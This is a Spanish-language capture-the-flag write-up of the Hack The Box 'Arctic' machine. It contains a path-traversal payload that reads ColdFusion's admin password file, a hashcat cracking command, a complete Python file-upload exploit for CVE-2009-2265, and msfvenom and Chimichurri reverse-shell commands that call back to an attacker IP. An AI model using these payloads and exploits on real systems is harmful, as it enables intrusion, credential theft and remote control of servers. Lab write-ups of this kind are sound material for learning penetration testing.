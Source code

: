 #  ARTIC MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.11 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.11 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/3.png)

## EXPLOTACION

Vemos que el puerto 8500 no pudo se ridentificado, pero si vemos si tiene algo en el navegador nos encontramos con un directory listing:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/4.png)

si vamos al enlace de CFIDE y despues Administrator nos sale un inicio de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/5.png)

con la version vamos a buscar vulnerabilidades y encontramos  un LFI que nos muestra la contraseña cifrada del usuario administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/6.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/7.png)

si vamos a esa ruta vemos unas credenciales cifradas:

```bash
?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/8.png)

con la herramienta **hash identifier** vamos a intentar descubribir que cifrado usa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/9.png)

usa SHA1, intentemos un ataque de fuerza bruta con diccionario mediante hashcat para ver si encontramos:

```bash
hashcat -a 0 -m 100 hash.txt /usr/share/wordlist/rockyou.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/10.png)

la contraseña es **happyday** vamos a iniciar sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/11.png)

encontre una POC de un file upload para adobe coldfusion 8 en el siguiente enlace [https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload)

```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

lo descargamos y vamos a subir un jsp malicioso. ¿Por qué un JSP? pues buscando se descubrio que adobe interpreta java y la extension .jsp.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4242 -f raw > shell.jsp
```

ahora vamos a ejecutar el exploit:

```bash
python exploit.py 10.10.10.11 8500 shell.jsp
```

y nos indica que lo sube en la ruta: "http://10.10.10.11:8500/userfiles/file/"

si vamos a esa ruta en el navegador vemos la shell.jsp, nos colocamos a la escucha en netcat y lo ejecutamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/12.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/13.png)

## ELEVACION DE PRIVILEGIOS

Viendo los permisos del usuario vemos que tiene el **SeImpersonatePrivilege** y esto lo podemos explotar con el** juicy potato**, ademas que el sistema operativo es antiguo y podemos usar **Chimichurri.exe**.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/14.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/15.png)

Para realizar la elevacion de privilegios pueden ver como se lo hixo en la maquina **DEVEL** y se puede aplicar literalmente lo mismo.

Yo utilice chimichurri para hacerlo rapido:

```bash
chimichurri.exe 10.10.14.16 4545
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ARTIC/images/16.png)